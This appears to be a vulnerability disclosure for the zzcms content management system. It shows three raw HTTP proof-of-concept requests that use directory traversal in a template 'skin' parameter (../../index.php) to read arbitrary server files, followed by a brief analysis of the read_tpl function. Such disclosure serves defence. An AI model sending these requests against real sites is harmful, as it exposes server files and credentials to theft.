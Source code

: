 

### /g/list.php has an arbitrary file read vulnerability

**Vulnerability process**

Access /admin/class.php

![image-20240825180940159](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240825180940159.png)

```java
POST /admin/class.php?dowhat=addclass HTTP/1.1
Host: zzcms:8786
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://zzcms:8786
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://zzcms:8786/admin/class.php?dowhat=addclass
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: tablename=zzcms_zhaoshangclass; specialclassid=1; bids=2%2C3%2C4%2C5%2C6%2C1; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; xywpwx_bakrnd=be4y5p3qAQqq; xywpwx_loginebakckpass=dfcc9c9ee795868cd3bcf60b919d11fd; xywpwx_baklogintime=1724565907; XDEBUG_SESSION=PHPSTORM; __tins__713776=%7B%22sid%22%3A%201724575579318%2C%20%22vd%22%3A%201%2C%20%22expires%22%3A%201724577379318%7D; __51laig__=9
Connection: keep-alive

parentid=0&classname=你好&action=add
```

Vulnerability process

Access /admin/class.php

POC2

```java
POST /admin/class.php?dowhat=modifyclass HTTP/1.1
Host: zzcms:8786
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://zzcms:8786/admin/class.php?dowhat=modifyclass&classid=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: tablename=zzcms_zhaoshangclass; specialclassid=1; bids=2%2C3%2C4%2C5%2C6%2C1; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; xywpwx_bakrnd=be4y5p3qAQqq; xywpwx_loginebakckpass=dfcc9c9ee795868cd3bcf60b919d11fd; xywpwx_baklogintime=1724565907; XDEBUG_SESSION=PHPSTORM; __tins__713776=%7B%22sid%22%3A%201724575579318%2C%20%22vd%22%3A%201%2C%20%22expires%22%3A%201724577379318%7D; __51laig__=9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 241

parentid=0&oldparentid=0&classname=你好&oldclassname=你好&classzm=llll&isshow%5B%5D=1&skin%5B%5D=zixun_class.htm&skin%5B%5D=zixun_list.htm&classid=1&action=modify&save=+%E4%BF%AE+%E6%94%B9+&skin[0]=../../index.php&skin[1]=../../index.php
```

POC3

```java
GET /g/llll HTTP/1.1
Host: zzcms:8786
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: c=llll; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; xywpwx_bakrnd=be4y5p3qAQqq; xywpwx_loginebakckpass=dfcc9c9ee795868cd3bcf60b919d11fd; xywpwx_baklogintime=1724565907; XDEBUG_SESSION=PHPSTORM; __tins__713776=%7B%22sid%22%3A%201724579143657%2C%20%22vd%22%3A%2013%2C%20%22expires%22%3A%201724582361205%7D; __51laig__=22
Connection: keep-alive


```

You can see that the content of our index.php has been read through the directory traversal

![image-20240825181336170](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240825181336170.png)

**code analysis**

![image-20240825181754354](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240825181754354.png)

The read_tpl method reads the file as follows

```php
function read_tpl($tpl){
global $siteskin;
$fp=zzcmsroot."template/".$siteskin."/".$tpl;
if (file_exists($fp)==false){die(tsmsg($fp.'模板文件不存在'));}
return file_get_contents($fp);
}
```

We can control the skins that are queried by the sql statement to control the files that are read.

In the admin/class.php file we can control the value of the skin

![image-20240825182139555](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240825182139555.png)
